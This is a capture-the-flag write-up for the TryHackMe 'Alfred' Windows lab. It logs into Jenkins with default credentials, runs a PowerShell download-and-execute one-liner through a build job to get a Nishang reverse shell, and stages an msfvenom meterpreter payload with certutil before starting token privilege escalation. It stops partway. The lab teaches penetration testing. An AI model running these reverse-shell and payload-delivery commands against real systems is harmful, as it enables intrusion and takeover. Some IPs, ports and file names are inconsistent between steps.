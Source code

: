 
Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

---

We will be exploiting this box today. According to the brief overview this is a windows application and it is recommended that we use the [Nishang](https://github.com/samratashok/nishang) project to gain initial access. Also they specified that we use this [specific script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Initial Access
## How many ports are open? (TCP only)

### Enumeration

#### nmap

```bash
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap -v 10.10.34.156 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-12 07:56 +04
Initiating Parallel DNS resolution of 1 host. at 07:56
Completed Parallel DNS resolution of 1 host. at 07:56, 0.11s elapsed
Initiating SYN Stealth Scan at 07:56
Scanning 10.10.34.156 [1000 ports]
Discovered open port 80/tcp on 10.10.34.156
Discovered open port 8080/tcp on 10.10.34.156
Discovered open port 3389/tcp on 10.10.34.156
Completed SYN Stealth Scan at 07:56, 17.19s elapsed (1000 total ports)
Nmap scan report for 10.10.34.156
Host is up (0.25s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

There are 3 open ports from the Nmap scan above. Lets explore the webservers on port 80 and port 8080.

## What is the username and password for the login panel?

### Webserver Enumeration

Viewing the webserver on port 80:
![[Pasted image 20251013214110.png]]

Viewing the webserver on port 8080:
![[Pasted image 20251013214126.png]]
So there are two webservers, one is a website hosted claiming that Bruce Wayne is dead and there is an address specified:

```bash
alfred@wayneenterprises.com
```

The other one seems to be access to the Jenkins platform with a username and password field.

### Default Credentials
1. Lets try using admin:admin on the webserver login
2. It WORKED
![[Pasted image 20251013214248.png]]

## What is the User.txt flag?

We get a hint of how to continue exploiting this room

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server
### Finding the feature that allows for code execution

1. Navigate to the following: http://10.10.206.196:8080/job/project/configure
![[Pasted image 20251013215624.png]]

2. Once we put the code in side the code block we go back to the page and press "Build Now"
![[Pasted image 20251013215723.png]]
### Download the Nishang Script 
1. Run the following
```shell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
2. Start our webserver on out attacker machine with the following
```bash
python -m http.server 8000
```

### Exploit the command injection vulnerability
We can now exploit the command injection vulnerability in the vulnerable part of the application to get a reverse shell by the command below

```shell
powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port
```

replace http://your-ip:your-port/Invoke-PowerShellTcp.ps1 with the address obtained from your updog webserver

```powershell
powershell iex (New-Object  Net.WebClient).DownloadString('http://10.9.0.78:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 10.9.0.78 -Port 4444
```

Copy the above command to the configure section as discussed above and when done, apply and save it, then press the build now button and now we should have a netcat shell activated back on our attacker machine

![[Pasted image 20251013220253.png]]

lets find the user.txt file now

Use the following to quickly find a text file using powershell query
```shell
Get-ChildItem -Path C:\ -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20251013220613.png]]
### Read the file once found

```powershell
Get-Content C:\Users\bill\Desktop\user.txt
# or
type C:\Users\bill\Desktop\user.txt
```
![[Pasted image 20251013220646.png]]

# Switching Shells

Time to upgrade our shells from a simple netcat shell to a meterpreter shell
## Generate the MSFVenom Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.0.78 LPORT=9090 -f exe -o SHELL.exe
```
## Download the payload on the webserver 1
1. We already have our python server running
2. Lets download it from our attacker machine onto the webserver using the below command

```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.3.69:9090/switch_shell.exe','switch_shell.exe')"
```

![[Pasted image 20251013221421.png]]

## Download the payload on the webserver 2
The above method was giving issues, so i tried using: Certutil

```
certutil -urlcache -f http://10.9.3.69:9090/switch_shell.exe switch_shell.exe
```

![[Pasted image 20251013224956.png]]

Certutil seems to have worked~~

---
## Setup a Meterpreter Listener 
```
msfconsole -q -x "use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.9.3.69 set 9090 listening-port run"
```
![[Pasted image 20251013222045.png]]

## Execute the payload on the webserver
use the following command in the shell code on the webserver
```
Start-Process "switch_shell.exe"
```

OR 

```bash
.\SHELL.exe
```

## Shell obtained
![[Pasted image 20251014202242.png]]

# Priv Esc

## Token Impersonation
### View all privileges 
1. Change the meterpreter to a shell
```
shell
```
2. View the privileges of the user
```bash
whoami /priv
```

![[Pasted image 20251014202749.png]]

- We see that there are two privilege that are enabled whilst the others are disabled
